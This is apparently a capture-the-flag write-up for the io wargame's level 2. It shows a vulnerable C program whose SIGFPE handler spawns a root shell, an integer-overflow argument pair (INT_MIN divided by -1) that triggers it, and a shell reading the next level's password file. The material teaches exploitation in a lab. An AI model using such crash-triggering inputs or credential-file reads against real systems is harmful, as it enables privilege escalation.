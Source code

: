 Check out the source file to see what we need to do:
```
//a little fun brought to you by bla

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <setjmp.h>

void catcher(int a)
{
    setresuid(geteuid(),geteuid(),geteuid());
    printf("WIN!\n");
    system("/bin/sh");
    exit(0);
}

int main(int argc, char **argv)
{
    puts("source code is available in level02.c\n");

    if (argc != 3 || !atoi(argv[2]))
        return 1;
    signal(SIGFPE, catcher);
    return abs(atoi(argv[1])) / atoi(argv[2]);
}
```

We see that there's a signal to catch a SIGFPE: a floating point exception. Something like this can be caused by dividing by zero or some other similar exception (as you'll see below). We also see that there's a check to make sure we supply two command line arguments, and the second argument can not be zero. As the final return line shows, the first argument is dividied by the second and the absolute value of this operation is returned. Since argv[2] can't be zero, we need to find some other way to cause an exception.

Now here's the solution:
```
level2@io:/levels$ ./level02 -2147483648 -1
source code is available in level02.c

WIN!
sh-4.2$ cat /home/level3/.pass
[Password to level3]
```

* To be perfectly honest, I'm not totally sure why this works. I played around with
these numbers for a little while and I just happened to get the right ones. I'll
look into a bit more to figure out exactly why this causes a SIGFPE.

Update: After doing some more playing in gdb and refreshing my mind a bit, I think I understand the issue. Signed numbers are represented by the most significant bit being 1. So the number 2147483647 is:
```
0x7fffffff -> 0111 1111 1111 1111 1111 1111 1111 1111
```
and that is the largest positive 32 bit signed integer value. So when we add 1 to it it becomes 2147483648 (or -2147483648 in this specific case) which is represented as:
```
0x80000000 -> 1000 0000 0000 0000 0000 0000 0000 0000
```
Now we've overflowed and we have a very large negative number. When diving by -1, you give the dividend the opposite sign. So when we try to take the opposite sign of -2147483648 the answer would obviously be 2147483648. The problem is that that number can't be represented in the world of 32 bit signed integers! Hence the SIGFPE. I believe that's the full explanation.
